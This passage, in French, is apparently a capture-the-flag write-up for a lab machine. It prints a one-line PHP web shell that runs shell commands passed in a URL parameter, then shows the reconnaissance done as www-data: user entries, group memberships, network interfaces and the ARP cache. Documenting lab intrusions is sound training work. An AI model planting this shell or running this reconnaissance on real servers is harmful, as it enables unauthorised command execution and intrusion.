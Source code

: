 La backdoor uploadée est tout ce qu'il y a de plus classique :  

```php
<?php system($_GET["cmd"]); ?>
```

Tu braques ou tu raques
-----------------------

Sans trop de surprises on obtient une exécution de commande en tant que www-data.  

Le système compte deux utilisateurs :  

```plain
alex:x:1000:1000:alex,,,:/home/alex:/bin/bash
dave:x:1001:1001:,,,:/home/dave:/bin/bash
```

L'utilisateur *alex* semble plus intéressant au vu des groupes dont il fait partie, pourtant la suite nous montrera qu'il ne fait pas partie du challenge.  

```plain
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),130(libvirtd)
```

Pour ce qui est du système on a ici un Ubuntu Xenial (*16.04.4 LTS*) en 64 bits mais le plus intéressant ce sont ses interfaces réseau :  

```plain
ens33     Link encap:Ethernet  HWaddr 00:50:56:b9:da:22
          inet addr:10.10.10.109  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:da22/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:da22/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2222114 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1924195 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:445751395 (445.7 MB)  TX bytes:524036804 (524.0 MB)

virbr0    Link encap:Ethernet  HWaddr fe:54:00:17:ab:49
          inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:5280 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5302 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:230054 (230.0 KB)  TX bytes:403556 (403.5 KB)
```

Il y a aussi le cache ARP (extrait de l'output de *LinEnum*) :  

```plain
[-] ARP history:
? (10.10.10.2) at 00:50:56:aa:9c:8d [ether] on ens33
? (192.168.122.4) at 52:54:00:17:ab:49 [ether] on virbr0
? (192.168.122.5) at 52:54:00:3a:3b:d5 [ether] on virbr0
```
